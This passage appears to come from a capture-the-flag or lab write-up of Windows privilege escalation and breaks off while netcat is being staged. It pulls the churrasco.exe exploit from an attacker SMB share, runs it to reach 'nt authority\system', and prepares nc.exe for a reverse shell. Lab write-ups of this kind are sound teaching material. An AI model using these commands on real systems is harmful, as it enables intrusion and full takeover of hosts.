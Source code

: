 Move the churrasco to Temp directory

```bash
cd C:\Windows\Temp

copy \\10.10.14.21\smbFolder\churrasco.exe churrasco.exe
copy \\10.10.14.21\smbFolder\churrasco.exe churrasco.exe
        1 file(s) copied.

dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\WINDOWS\Temp

01/13/2023  12:43 AM    <DIR>          .
01/13/2023  12:43 AM    <DIR>          ..
01/12/2023  10:24 PM            31,232 churrasco.exe
02/18/2007  02:00 PM            22,752 UPD55.tmp
12/24/2017  07:19 PM    <DIR>          vmware-SYSTEM
01/12/2023  11:58 PM            22,554 vmware-vmsvc.log
09/16/2021  12:15 PM             5,826 vmware-vmusr.log
01/13/2023  12:01 AM               637 vmware-vmvss.log
               5 File(s)         83,001 bytes
               3 Dir(s)   1,317,462,016 bytes free

C:\WINDOWS\Temp>
```

If you run the script see who we are

```bash
.\churrasco.exe "whoami"
.\churrasco.exe "whoami"
nt authority\system

C:\WINDOWS\Temp>
```

## nt authority\system

We want a reverse shell so we need netcat so transfer to the machine

```bash
locate nc.exe
```

And copy the nc.exe to your current file

```bash
❯ ls
 nc.exe
```

With the same tool transfer to the machine
